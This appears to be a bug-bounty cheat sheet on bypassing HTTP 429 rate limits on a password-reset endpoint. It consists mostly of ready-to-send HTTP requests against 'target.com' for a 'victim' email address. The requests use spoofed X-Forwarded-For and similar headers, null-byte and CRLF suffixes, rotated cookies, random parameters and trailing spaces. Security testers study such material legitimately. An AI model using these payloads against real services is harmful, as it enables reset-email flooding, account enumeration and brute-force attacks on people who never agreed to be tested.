 # Bypass 429 (Too Many Requests)
 
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```
For example:
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```

## References
* [Huzaifa Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
* [Gupta Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)